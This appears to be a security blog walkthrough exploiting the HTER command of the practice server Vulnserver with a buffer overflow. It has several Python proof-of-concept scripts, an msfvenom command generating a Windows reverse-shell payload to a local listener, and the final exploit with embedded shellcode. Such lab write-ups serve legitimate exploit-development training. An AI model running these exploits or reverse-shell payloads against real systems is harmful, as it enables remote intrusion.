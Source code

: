 ```yaml
---
title: Vulnserver HTER - Vanilla BOF & Character Conversion 
author: fwinsnes
date: 2021-02-03 11:33:00 +0800
categories: [Binary Exploitation]
tags: [shellcoding, vulnerability]
---
```


# Introduction

### In order to finish with the eccentric cases that vulnserver may offer us, today we will be seeing an odd case of a buffer overflow with a character conversion.

#### The issue itself

##### Due to the character conversion, the received bytes are parsed as expected. Nonetheless, the alphanumeric bytes suffer from no change whatsoever and are not ported as hex. 
For example, if the EIP is overflown with 1000 bytes of A's, the EIP may not reveal 41414141, instead, it will place "AAAAAAAA".

### The basics

##### As with any other vulnerable applicaiton to, so as to achieve a buffer overflow, we shall test it first in order to exploit it, let's try with HTER + long string of bytes.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 5000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### Crash I.

![](/assets/img/HTER/1.png)

##### Gaze at the EIP for a bit, look how instead of converting the sent bytes into hex (41), it just parsed them as how they went dispatched.
##### As there is no pattern available in order to obtain the offset on these scenarios, the best method is to deduce the offset manually with the use of an elimination process.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2000 + "B" * 1000 + "C" * 1000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash II.

![](/assets/img/HTER/2.png)

##### As displayed, it appears as now the B's are the culprit for the overflow. After this process was replicated on multiple occasions, it was found for the offset to be 2041.
##### Furthermore, in order to overwrite the EIP, it is needed to cover the extra space that the opcodes commonly occupy, meaning that it is required to send 8 B's, instead of 4.

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

buffer = "HTER " + "A" * 2041 + "BBBBBBBB" + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash III.

![](/assets/img/HTER/3.png)

#### Hijacking the execution.

##### As with any other buffer overflow, it is now essential to find an address with a JMP ESP instruction, which will allow us to execute any type of code with no restrictions 
whatsoever.

###### Enumerating the modules.

![](/assets/img/HTER/4.png)

###### Hunting for the required instruction.

##### Now that the vital address has been already acquired, it can't just be placed as we always did, with struct or a hex escape sequence (\x). Instead, it must be placed on 
reverse, just without the aforementioned hexadecimal condition. For example, instead of sending \x41\x49, 4149 is chosen.

![](/assets/img/HTER/5.png)

###### PoC code:

```term
import socket, sys

host = sys.argv[1]

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Crash IV.

![](/assets/img/HTER/6.png)

##### Good, as we now have access to execution, the following step would be generating shellcode, but following what was seen on the last crash. In order to make our shellcode 
usable, the format "hex" will be employed.

##### Generating shellcode

```term
root@whitecr0wz:~# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.139 LPORT=9000 -f hex -b "\x00" EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of hex file: 702 bytes
b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44bf
e01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f436
89200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66f
740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf
root@whitecr0wz:~# 
```

###### Final PoC:

```term
import socket, sys

host = sys.argv[1]

buf = 
"b8cb420fe4daced97424f45b31c9b1523143120343128320beed114ad770d9b2281553571915071c0aa54370a74e01603c228e87f589e8a606a1c9a984b81d09b4725048f16f9918aae40c8cdfb18c27935495d46456b44b
fe01166ad3391f743007e90f82f3e8d9dafc4724d30e9961d4f0ec9b268cf658544a727afe1924a6feceb32d0cbab069113d14022db69bc4a78cbfc0ec57a1514939de8132e67acadff3f691b7303b29485f4c5a7ac0e6f43
689200338a0959bc74be6b2031fb6aca2205d2c4af5f27ce4a6b22c44175b264b487b4981e116b042ce4fde19a68d1e3d1f1bf82b4f4d53c4f6d42f75f6c24ab57ce1ab78758cbfed75db9db88af18927189e492101091e66
f740ca9aaefae86636c4a8bc8bcb3130b7ef218c38b415406f62c326d9c4bdf0b68e2984f4102f89d0e6cf388dbef0f5593789ebf9b840a81a5b40c5b2c20164dff4fcabe676f4531d667d5159206e2bf2c59098f3cf"

jmpesp = "AF115062" # 625011AF

buffer = "HTER " + "A" * 2041 + jmpesp + "90" * 20 + buf + "FF" * 200

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

#### EndGame

![](/assets/img/HTER/7.png)
